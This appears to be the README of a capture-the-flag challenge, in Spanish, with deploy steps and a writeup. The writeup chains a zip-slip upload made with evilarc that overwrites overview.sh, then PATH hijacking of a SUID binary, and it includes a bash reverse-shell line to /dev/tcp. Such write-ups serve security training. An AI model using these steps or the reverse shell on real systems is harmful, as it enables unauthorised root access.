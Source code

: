 # Instrucciones para deploy
- Dentro de application ```sudo chown root *```
- Luego ```sudo chown www-data uploads overview.sh```
- ```python3 run.py```

# Writeup

Generamos un .zip con un archivo que se llame ../overview.sh asi sobreescribimos el script que se ejecuta al visitar /overview. Para ello podemos usar la herramienta [evilarc](https://github.com/ptoomey3/evilarc).
```
python evilarc.py -o unix -d 1 overview.sh
```
Visitamos /overview para que se ejecute el script que hemos subido.
Obtenemos acceso como www-data.
Vemos en el directorio update un binario que ejecuta un script firmware_update.sh como root.
Path hijacking en el script firmware_update.sh (SUID) del binario logger, creamos un archivo ejecutable (logger):
```
# !/bin/bash
bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
```
Y modificamos nuestra variable de entorno PATH anyadiendo la ruta en la que creamos el ejecutable (logger).
```
export PATH=$(pwd):$PATH
```
Por ultimo ejecutamos el binario firmware_update y obtenemos nuestra shell como root.

